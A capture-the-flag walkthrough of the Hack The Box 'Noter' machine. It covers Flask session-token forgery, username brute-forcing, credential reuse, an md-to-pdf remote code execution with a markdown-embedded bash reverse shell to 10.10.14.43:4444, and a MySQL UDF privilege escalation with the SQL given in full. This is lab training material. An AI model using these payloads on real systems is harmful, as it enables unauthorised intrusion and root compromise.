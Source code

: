 


# Noter Machine
<p align="center">
<img src="./img/box.png" allign="center" alt="Logo">
</p>

## Machine Stats :
<p align="center">
<img src="./img/stats.png">
</p>


# Walkthrough :

I started as always by scanning the machine ports :

<img src="./img/0.png">

* SSH on port 22.

* FTP on 21.

* A webserver on port 5000.


I tried anonymous login on ftp but that didn't work. So i decided to look at the web server on port 5000. It was a flask web app that provides users with a database to store and manage notes.

<img src="./img/2.png">

Trying common logins and passwords (admin:admin, *:*, root:root ...) or trigering an SQL error wasn't fruitful.
So i decided to register a user Tom to be able to further explore the app.

<img src="./img/3.png">


While inspecting the intercepted requests on burp, i found out that a session token (looks like JWT) is used.
I decoded it with jwt.io which revealed an awkward payload and an interesting header.

<img src="./img/4.png">

It wasn't actually a typical jwt which often looked more like this (with a valid signature):

<img src="./img/5.png">

I figured out that it was a flask token thanks to Carlos Polop's HackTricks (https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask/).
Using flask_unsign with a rockyou.txt as a wordlist was good enough to reveal the secret.


<img src="./img/6.png">

I'm now able to craft my own tokens using the same tool to bruteforce usernames.
All i needed was a bash script and a good wordlist to generate my tokens:

<img src="./img/7.png">

I used ffuf using my generated tokens as a session value and there was 2 200 HTTP responses (A wrong token redirects to /login).

<img src="./img/8.png">

A username "user" which was useless and another one named "blue" which actually had some stored notes.

One note written by ftp_admin exposed the ftp username and password of blue.

<img src="./img/9.png">

I used these creds to access ftp on port 21. It had an empty directory and a pdf file which exposed the comapany's password policy.
Reading only the title, i thought i only had some additional specifications making password guessing easier, but it actually specified the way default passwords are generated.

<img src="./img/11.png">

I tried to ftp using user:user@Noter! but it failed it made me think that it was just an account created by another HTB player.(i was so desperate that i tried root:root@Noter! too)
But there was a potential username which i didn't used yet, so i decided to give it a shot.
ftp_admin:ftp_admin@Noter! was the one.

<img src="./img/12.png">

i downloaded and decompressed the zip files and now i finally have the app's source code xD.

<img src="./img/13.png">

the app.py file had the database credentials

<img src="./img/14.png">

Through the templates folder, i discovered hidden paths import_note and export_note which looked promising with the "Export directly from cloud" feature.


<img src="./img/15.png">

It's backend code was in md_to_pdf.js. And Google proved again that it's my best friend, revealing an RCE vulnerability:

<img src="./img/16.png">

The only proof of concept i found was a local one :

<img src="./img/17.png">

But in my case i hosted a markdown file (.md) with a reverse shell payload:

``` ---js\n((require("child_process")).execSync("bash -i >& /dev/tcp/10.10.14.43/4444 0>&1"))\n--- ```

I prepared my listener and requested my malicious md file (http://10.10.14.43:80/a.md) from th vulnerable server to trigger the rce but it didn't work, i didn't catch a shell. 

<img src="./img/18.png">

I had this problem before and i thought i had a trick to fix it which was wrapping the revshell in bash -c ''.
It was better but i still didn't get an interactive shell.

<img src="./img/19.png">

Looking again at the public proof of concept i had an idea of seperating the shell and the rce payload.
And successfully got a shell.

<img src="./img/20.png">

Running linpeas revealed an open mysql port and i already have the root creds.
After some searching i found this Privilege Escalation with MySQL User Defined Functions:
https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library
<img src="./img/22.png">

I downloaded the library compiled it and made a text file containing the payload to copy the root flag to /tmp and make it readable.

``` 
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /root/root.txt /tmp; chown svc svc /tmp/root.txt;');
 ```

And now i have the root flag.

<img src="./img/23.png">


Made by Fckroun with <3